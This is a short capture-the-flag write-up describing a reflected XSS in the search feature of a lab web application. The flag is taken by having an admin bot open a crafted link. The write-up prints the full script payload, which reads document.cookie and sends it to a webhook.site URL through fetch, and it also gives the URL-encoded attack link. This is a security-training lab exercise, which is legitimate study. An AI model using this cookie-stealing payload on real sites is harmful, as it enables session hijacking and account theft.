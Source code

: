 # Challenge `My favourite cookies` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to XSS

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23251`, on the bug report feature

- Impact: What results of exploiting this vulnerability
  - Allows the user to run code through XSS, used to steal cookies

## Steps to reproduce

1. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23251`
2. The link given on the bug report feature will be accessed by the admins
3. In order to get the flag, the admin must send their cookies to our `WebHook`
4. Searched for the following code on the search bar, in order to get the link to be pressed:

```html
<script>var url = 'https://webhook.site/a3d25143-6e57-4354-b50c-c0c6fe1a3db9/?cookies=' + encodeURIComponent(document.cookie); fetch(url);</script> 
```

5. The link passed was the following:

`http://mustard.stt.rnl.tecnico.ulisboa.pt:23251/?search=%3Cscript%3Evar+url+%3D+%27https%3A%2F%2Fwebhook.site%2Fa3d25143-6e57-4354-b50c-c0c6fe1a3db9%2F%3Fcookies%3D%27+%2B+encodeURIComponent%28document.cookie%29%3B+fetch%28url%29%3B%3C%2Fscript%3E+`
